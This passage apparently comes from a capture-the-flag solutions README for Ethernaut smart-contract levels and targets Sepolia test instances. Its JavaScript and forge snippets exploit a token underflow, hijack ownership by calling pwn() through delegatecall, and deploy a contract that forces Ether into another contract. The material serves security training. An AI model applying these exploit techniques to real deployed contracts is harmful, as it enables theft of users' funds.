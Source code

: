 ```shell
# Local testing
$ anvil --fork-url=$SEPOLIA_RPC_URL
```

```js
# We're the owners of the contract. Let's check our balance
await contract.balanceOf(player).then(result => result.toString());
# Transferring amount + 1 to any address
await contract.transfer("0x0000000000000000000000000000000000000000", 21)
```

---

## Delegation

### Test

```shell
$ forge test -vvv --match-path "test/Delegation*"
```

### Attack

```js
var methodId = web3.utils.sha3('pwn()').substring(0, 10);
var txData = {
    from: player,
    to: instance,
    data: methodId, // No parameters, so the data is just the method ID
};

web3.eth.sendTransaction(txData)
.then(receipt => {
    console.log('Transaction receipt:', receipt);
})
.catch(error => {
    console.error('Error sending transaction:', error);
});
```

---

## Force

### Test

```shell
$ forge test -vvv --match-path "test/Force*"
```

### Deploy

```shell
$ forge create \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    src/AttackForce.sol:AttackForce
```
